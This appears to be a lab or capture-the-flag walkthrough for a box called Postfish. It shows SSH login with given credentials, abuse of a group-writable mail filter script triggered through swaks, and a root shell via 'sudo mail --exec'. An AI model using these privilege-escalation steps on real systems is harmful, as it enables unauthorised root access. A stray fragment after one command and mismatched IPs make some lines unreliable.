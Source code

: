 Using `brian.moore : EternaLSunshinE`
```
ssh brian.moore@192.168.245.137
```
![](../attachment/2b7a69e90306a32579e45c9e251242c5.png)

Running linpeas:
![](../attachment/b9fa3304df1200ee94aca8f541cb6970.png)
We found a readable and writeable file that's owned by root
![](../attachment/34ebf05cc784ec3cbd12e4158a04079f.png)
We can edit it as we belong to `filter` group.
![](../attachment/1a8a2973bf2d4d6136198ac43c241159.png)
Now to trigger it we need to send a mail:
```
sudo swaks -t brian.moore@postfish.off --from it@postfish.off --server  192.168.241.137 -body @body.txt -header "Subject:Problems"postfix
pos
```
Now we get a shell as filter:
![](../attachment/0b44f9718738d790af63f3837b8858e8.png)
![](../attachment/3a076be03458f35878b70b9752094fcb.png)
We can run mail as sudo.
```
sudo mail --exec='!/bin/sh'
```
![](../attachment/d36be59a6da994cd8f4342f4ca857933.png)
We are root.